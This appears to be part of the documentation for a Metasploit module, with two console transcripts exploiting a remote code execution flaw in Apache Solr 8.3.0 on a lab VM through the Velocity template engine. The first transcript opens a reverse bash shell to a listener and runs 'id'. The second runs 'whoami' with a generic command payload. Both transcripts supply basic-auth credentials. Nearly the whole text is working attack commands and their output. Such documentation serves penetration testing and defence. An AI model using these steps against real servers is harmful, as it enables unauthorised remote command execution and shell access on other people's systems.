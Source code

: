 ### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/reverse_bash`
```
msf5 > use exploit/multi/http/solr_velocity_rce 
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Command shell session 17 opened (192.168.137.128:4444 -> 192.168.137.129:48600) at 2020-03-29 00:20:50 +0800

id
uid=999(solr) gid=1002(solr) groups=1002(solr)
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/generic`
```
msf5 > use exploit/multi/http/solr_velocity_rce 
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] solr
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/solr_velocity_rce) > 
```